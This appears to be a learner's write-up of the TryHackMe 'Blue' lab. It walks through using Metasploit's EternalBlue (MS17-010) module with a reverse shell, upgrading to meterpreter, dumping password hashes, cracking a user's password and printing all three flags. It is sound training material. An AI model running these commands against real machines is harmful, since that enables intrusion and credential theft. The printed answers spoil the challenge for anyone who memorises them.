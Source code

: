 # Blue

BLUE (Eternal blue)
https://tryhackme.com/room/blue

IP: 10.10.200.69
Found: Jon@alqfna22
------------------------------------------------------------------------------------------------------------------------------------------
This is a Windows vulnerability, pretty big, and well-known. If you want to do over THM machine or over own I let you decide.  If you do over THM machine skip to Task 1 if so... Do remember that my IP is probably not the same as yours, so remember changing that in your scans. I did actually both because I had some problems, so some pictures may be from my own or from a VM.
Deploy the machine on THM so you get the IP address.

1.	Download your VPN file on THM if you haven’t done that already, find it and do following command: sudo openvpn FILE.ovpn
2.	then hit your password and you ready to dive in to TASK 1…
TASK 1:
1.	Scan the machine. 
I use NMAP for this, the commands are simple and we will use -sC for scrips, and -sV for versions. IF you have problems add -Pn which will avoid ping. You will also find the username that we need for future. I needed to do this:
nmap -Pn -sC -sV 10.10.200.69

2.	How many ports are open with a port number under 1000? 
Answer: 3 (135,139 and 445)
3.	What is this machine vulnerable to?
By just googling “Microsoft eternalblue” I could find what they had named this. Its CVE is also revealed if you google little bit more and is “CVE-2017-0144” but in answer you find the Microsoft vulnerability name.
Answer: ms17-010


TASK 2:
1.	Start Metasploit
Just write msfconsole, and it will trigger Metasploit to start. 
2.	Find the exploitation code we will run against the machine. What is the full path of the code?

search ms17-010
use exploit/windows/smb/ms17_010_eternalblue (OR use 0)
set payload windows/x64/shell/reverse_tcp (It will default on this anyway)
show options (to see what is required to do, usually RHOST also LHOST in my case)
set RHOST 10.10.200.69
set LHOST IP (Do an sudo ifconfig do find out in tun0) 
run (Take a time now and answer the questions under)

The answer you could find from the first command.
Answer: exploit/windows/smb/ms17_010_eternalblue

3.	Show options and set the one required value. What is the name of this value?
Answer: RHOSTS

4.	Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target.

Sadly this happened me, you will get this fail message, I tried to restart the machine and use another IP it didn’t work. After some research I noticed my local IP was set to wrong IP, it should be the IP you find from your ifconfig, which is from tun0, here I did an set LHOST to that IP and it worked…
At my machine it said “WIN” Which means it successfully runned the exploit without any problems.  And you should now by hitting enter have a basic shell and should look like C:\Windows\system32> 
From here do an: whoami, you will see your nt authority\system basicly root.
Now you can enter: background and hit y, to background this progress (or do as above CTRL + Z). This is something that you can do within Metasploit which is pretty good to remember for future. This allows you to go back to your Metasploit prompt.
TASK 3:
1.	What is the name of the post module we will use?

search shell_to_meterpreter 
use post/multi/manage/shell_to_meterpreter (here you also find the answer to this question) 
show options (From here you see what we need to set, the session option, the LHOST is not required in this case)
sessions (You should now have a session to use)
set SESSION 1
run
shell
whoami (You are NT authority)
exit (We need to go back to meterpreter now, for task 4

They will tell you to migrate, but you do not need to migrate here, because we have such a strong reverse shell already. You could do that if you want to learn more…

Answer: post/multi/manage/shell_to_meterpreter
2.	what option are we required to change?
Answer: SESSION
3.	Set the required option, you may need to list all of the sessions to find your target here. 
4.	Run! If this doesn't work, try completing the exploit from the previous task once more.
5.	Once the meterpreter shell conversion completes, select that session for use.
6.	Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again.
7.	List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).
8.	Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time. 
TASK 4:
1.	Within meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user?

hashdump (here you find the user as you show earlier, Jon, but you also find out the hashes of the passwords)
Answer: Jon

2.	Copy this password hash to a file and research how to crack it. What is the cracked password?
Take the hash from Jon:1000 but only the 2nd part and crack it from, I did all just to see if I could anything else but I only got Jons password. You could do this over JohnTheRipper but for this lesson we will do this over www.crackstation.net.
Answer: alqfna22

TASK 5:
Flag 1: flag{access_the_machine}
The flags you find by doing following… This was tricky, the hint says “if I can C it” which made me think of the C drive…
cd C:/
dir (Do you see the flag?)
cat flag1.txt

Flag 2: flag{sam_database_elevated_access}
For flag 2, there is something called sam location in Windows, which I used for storing hashes of passwords and users. You can google this to explore more about this.
cd C:/Windows/System32/config
dir
cat flag2.txt

Flag 3: flag{admin_documents_can_be_valuable}
For flag 3, its much easier to know where the flag is, and because were using meterpreter there is a nice tool to use… The search function… search -h
Search -f flag*.txt (You should see all 3 flags from here, but flag 3 is in Documents folder of Jon)
Having problems cat that out? Well I did also have that problem, just add this \…
cat c:\\Users\\Jon\\Documents\\flag3.txt
---------------------------------------------------------------------------------------------------------
